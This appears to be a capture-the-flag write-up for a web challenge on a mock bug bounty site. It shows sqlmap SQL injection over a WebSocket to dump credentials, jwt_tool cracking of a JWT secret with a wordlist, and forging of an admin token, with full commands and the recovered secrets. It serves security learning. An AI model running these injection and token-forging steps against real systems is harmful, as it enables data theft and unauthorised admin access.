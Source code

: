 # CTF Write-Up: [Bug Report Repo]

## Challenge Information

- **Category:** [Web]
- **Points:** [342]
- **Solves:** [64]
- **Author:** [CryptoCat]
- **Challenge Description:** [I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕]

## Solution

### Summary

We can arrange items by ID from 1 to 10.

![bug_repo_1](https://user-images.githubusercontent.com/105972068/285240795-d15025d2-4bdf-4290-81ca-897294c596fa.png)

When We put over the ID

![bug_repo_2](https://user-images.githubusercontent.com/105972068/285240843-c40d3dd6-1bc4-481b-b431-5ae2a6bbd82d.png)

When I try to order with ID 11, I encounter

![bug_repo_3](https://user-images.githubusercontent.com/105972068/285240862-7d213ee0-bdc2-4094-a664-e57fd23f45d5.png)
Does it seem like it comes from the database?

All order IDs are processed using the WebSocket protocol, not the Post method.

![bug_repo_4](https://user-images.githubusercontent.com/105972068/285249312-6d14414d-8d1d-402c-b17c-dedb1978ab35.png)


### Walkthrough

> I discovered this command for the injection. 
> - The original link is "https://bountyrepo.ctf.intigriti.io/". We have to replace "https" with "wss".
> - --data=Data: Data string to be sent through POST (e.g. "id=1")
> - --dbms=DBMS: Force back-end DBMS to provided value
```
sqlmap -u 'wss://bountyrepo.ctf.intigriti.io:443/ws' --random-agent --data '{"id":"11"}' --dbms sqlite --dump --batch
```

*Result:*
![bug_repo_5](https://user-images.githubusercontent.com/105972068/285264202-03df9db2-25e3-4e3f-9aaa-ec6358d2a3b6.png)
```
crypt0:c4tz on /4dm1n_z0n3, really?!
```
> Navigate to /4dm1n_z0n3, and we'll find the login page.
![bug_repo_6](https://user-images.githubusercontent.com/105972068/285264222-564e455e-f2b5-4711-9e7d-4d21b632b936.png)

> Use the credentials "crypt0" for the username and "c4tz" for the password to log in.
![bug_repo_7](https://user-images.githubusercontent.com/105972068/285264227-41da7566-6a52-468f-b39e-50928e115dd6.png)

> After logging in, we received the message **"only viewable by the admin"**.
We also obtained this JWT.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
```
> We can use hashcat, john, and jwt_tool to crack this JWT.
But I prefer using jwt_tool.
```
py jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I -C -d C:\Tool_Exe\wordlist\rockyou.txt
```
*secret key:*
<mark>
  catsarethebest
</mark>

> Go to iwt.io, paste the JWT and secret key to see the complete details.
![bug_repo_9](https://user-images.githubusercontent.com/105972068/285272843-fe845d2a-3cce-40e3-b04f-93f04391f752.png)

> Modify this JWT from crpt0 to admin
```
py jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I -S hs256 -p catsarethebest -pv admin -I -pc identity
```

*We get admin JWT:*
<mark>
  eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImFkbWluIn0.3xH8a2FskQJ3afYZeJCtwln4CRrwh4nidEy7S6fJoA0
</mark>

> Update the cookie in our browser, and we'll obtain the flag!
![bug_repo_8](https://user-images.githubusercontent.com/105972068/285264228-90545caf-8b99-478d-a6a1-c06f178f5829.png)



